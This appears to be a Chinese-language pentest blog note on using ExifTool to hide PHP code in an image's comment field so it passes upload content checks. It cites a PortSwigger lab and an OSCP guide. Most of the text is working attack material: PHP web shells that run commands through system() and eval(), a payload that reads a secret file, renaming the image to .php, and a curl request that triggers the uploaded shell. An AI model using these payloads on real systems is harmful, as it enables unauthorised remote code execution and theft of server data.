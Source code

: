 ```yaml
---
# Details front-matter reference: https://hugoloveit.com/zh-cn/theme-documentation-content/#front-matter
title: 【文件上传&文件内容校验】使用 Exiftool 向图片插入数据
subtitle: ""
summary: ""

slug: 95be9cb2
date: 2023-01-31T17:47:17+08:00
lastmod: 2023-01-31T17:47:17+08:00

tags: ["文件内容校验"]
categories: [File Upload]

featuredImage: ""
featuredImagePreview: ""

draft: false
---
```


### Description

ExifTool 是一个强大的查看以及操作 EXIF 数据的工具。

在安全测试中, 可以用于将数据插入图片当中, 以绕过文件内容校验

[GitHub - exiftool/exiftool: ExifTool meta information reader/writer](https://github.com/exiftool/exiftool)

### Examples

**Generate File**

```plaintext
# Insert <?php echo "<pre>"; system($_GET['cmd']); ?> to polyglot.jpg
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' polyglot.jpg
mv polyglot.jpg polyglot.php

# Merger <YOUR-INPUT-IMAGE> and <?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

**Usage**

Generate & Move the file

```bash
exiftool -Comment='<?php echo "<pre>"; @eval($_REQUEST['krm']); ?>' polyglot.jpg
mv polyglot.jpg polyglot.php
```

> polyglot >>  [php/01_jpg.php](https://github.com/hitoriskurimu/webshell/blob/main/php/01_jpg.php)

Upload your webshell

```bash
curl http://example.com/01_jpg.php?krm=phpinfo();
```

---

**reference**
- [Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
- [Bypass File Upload Filtering · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html)
